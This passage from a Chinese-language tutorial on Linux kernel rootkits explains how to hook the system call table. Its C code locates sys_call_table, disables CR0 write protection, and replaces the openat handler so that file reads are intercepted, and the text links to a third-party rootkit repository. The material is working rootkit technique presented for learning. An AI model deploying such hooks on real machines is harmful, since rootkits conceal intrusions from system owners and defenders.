 

### 提权

![Alt text](/images/posts/rootkit/1603791373677.png)


### sys_call_table

这里hook `sys_call_table`要先找到`sys_call_table`的地址，然后关闭写保护，接着改写`sys_call_table`里面对应的函数指针，修改，最后开启写保护并返回。举个例子

```
real_sys_call_table = (void *)kallsyms_lookup_name("sys_call_table"); // 找到sys_call_table的地址

//修改sys_call_table的openat，hook cat命令
real_sys_openat = (void *)real_sys_call_table[__NR_openat];// 保存真实的sys_openat地址
disable_wp();//关闭写保护
real_sys_call_table[__NR_openat] = (void *)my_sys_openat;//修改函数指针为fake函数地址
enable_wp();//打开写保护

//恢复sys_call_table的openat函数指针
disable_wp();
real_sys_call_table[__NR_openat] = (void *)real_sys_openat; 
enable_wp();

inline void mywrite_cr0(unsigned long cr0)
{
    asm volatile("mov %0,%%cr0"
                 : "+r"(cr0), "+m"(__force_order));
}

void enable_wp(void)
{
    // 可能存在条件竞争
    unsigned long cr0;

    preempt_disable();
    cr0 = read_cr0();
    set_bit(X86_CR0_WP_BIT, &cr0);
    mywrite_cr0(cr0);
    preempt_enable();

    return;
}

void disable_wp(void)
{
    // 可能存在条件竞争
    unsigned long cr0;

    preempt_disable();
    cr0 = read_cr0();
    clear_bit(X86_CR0_WP_BIT, &cr0);
    mywrite_cr0(cr0);
    preempt_enable();

    return;
}
```


### 工具源码

大佬实现的工具源码：https://github.com/plusls/rootkit
